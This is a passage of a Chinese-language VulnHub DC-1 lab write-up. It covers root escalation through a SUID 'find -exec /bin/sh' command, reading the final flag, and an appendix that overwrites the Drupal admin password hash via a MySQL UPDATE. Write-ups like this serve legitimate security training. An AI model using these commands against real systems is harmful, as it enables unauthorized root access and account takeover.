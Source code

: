 看到 find 没有,今天就让我提个痛快
```bash
find . -exec /bin/sh \; -quit
```

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC1/15.png)

```
ls /root
cat /root/thefinalflag.txt
```

提权成功,感谢靶机作者 @DCUA7,查看最终 flag

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC1/16.png)

---

# 补充

在 flag3 跑 hashcat 时,如果跑不出密码,除了 google 以外还有2种方式登录 admin 账号
- 直接数据库修改 Drupal users 表
- 通过 drush 修改 admin 用户的密码

**直接数据库修改 Drupal users 表**

我都爆出了 Fred 的明文 MyPassword 了,那我直接把 admin 的改成和 Fred 的一样不就行了
```bash
mysql -u dbuser -p
use drupaldb;
update users set pass='$S$DWGrxef6.D0cwB5Ts.GlnLw15chRRWH2s1R3QBwC0EkvBQ/9TCGg' where name='admin';
```

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC1/17.png)
